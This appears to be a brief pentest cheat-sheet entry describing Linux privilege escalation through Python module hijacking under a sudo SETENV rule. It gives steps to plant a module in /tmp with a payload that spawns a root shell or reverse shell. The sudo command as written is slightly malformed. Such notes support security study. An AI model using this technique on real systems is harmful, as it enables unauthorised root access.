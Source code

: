 ### There are multiple ways to escalate with python

## EXAMPLES:

# MODULE HIJACKING

#### 1) SETENV: NOPASSWD /usr/bin/python /home/whatever/script.py

#### 2) Check if you can overwrite an already existing module in python, or simply create the missing import module that the script asks

#### E.g.: ImportError: No module named pwned

#### 3) Create the malicious binary in any directory we have write access to (/tmp directory as usual)

#### 4) The payload can be (import os; os.system('/bin/bash') or a python reverse shell.

#### 5) chmod +x pwned.py

#### 6) sudo PYTHONPATH/tmp/ /usr/bin/python /home/whatever/script.py

#### 7) Enjoy root!
